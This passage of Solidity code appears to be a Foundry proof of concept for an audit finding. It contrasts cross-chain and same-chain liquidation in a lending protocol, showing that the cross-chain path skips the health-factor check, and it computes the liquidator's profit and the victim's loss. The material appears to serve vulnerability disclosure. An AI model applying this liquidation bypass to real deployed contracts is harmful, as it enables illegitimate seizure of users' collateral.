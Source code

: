 ```solidity
        // All checks pass, liquidation proceeds even though position is healthy
        return check1 && check2 && check3;
    }
    
    function compareWithSameChainLiquidation() external pure {
        console.log("\n=== COMPARISON: Same-Chain vs Cross-Chain Liquidation ===");
        
        console.log("\n✅ SAME-CHAIN LIQUIDATION (CoreRouter.sol):");
        console.log("1. Check liquidator != borrower");
        console.log("2. Check repay amount > 0"); 
        console.log("3. Get account liquidity: getHypotheticalAccountLiquidityCollateral()");
        console.log("4. ✅ CRITICAL: require(borrowedAmount > collateral, 'Insufficient shortfall')");
        console.log("5. Check close factor limits");
        console.log("Result: Healthy positions CANNOT be liquidated");
        
        console.log("\n❌ CROSS-CHAIN LIQUIDATION (CrossChainRouter.sol):");
        console.log("1. Check liquidator != borrower");
        console.log("2. Check repay amount > 0");
        console.log("3. ❌ MISSING: Health factor validation");
        console.log("4. Check close factor limits only");
        console.log("Result: Healthy positions CAN be liquidated illegitimately");
    }
    
    function calculateExploitProfit() external pure returns (uint256 profit) {
        console.log("\n=== EXPLOIT PROFIT CALCULATION ===");
        
        uint256 repayAmount = REPAY_AMOUNT;           // $500 liquidator pays
        uint256 liquidationBonus = 108;               // 8% liquidation bonus
        uint256 seizedValue = (repayAmount * liquidationBonus) / 100; // $540 seized
        
        profit = seizedValue - repayAmount;           // $40 profit per liquidation
        
        console.log("Liquidator pays:", repayAmount / 1e18);
        console.log("Collateral seized:", seizedValue / 1e18);
        console.log("Liquidator profit:", profit / 1e18);
        console.log("Victim loss: Illegitimate seizure of $", seizedValue / 1e18);
        
        return profit;
    }
}

/**
 * @title Test Suite for Cross-Chain Liquidation Bypass
 */
contract CrossChainLiquidationBypassTest is Test {
    CrossChainLiquidationBypassExploit exploit;
    
    function setUp() public {
        exploit = new CrossChainLiquidationBypassExploit();
    }
    
    function testHealthyPositionLiquidation() public {
        console.log("Testing cross-chain liquidation health check bypass...\n");
        
        // Execute the exploit demonstration
        exploit.demonstrateVulnerability();
        
        // Show comparison with proper same-chain liquidation
        exploit.compareWithSameChainLiquidation();
        
        // Calculate financial impact
        uint256 profit = exploit.calculateExploitProfit();
```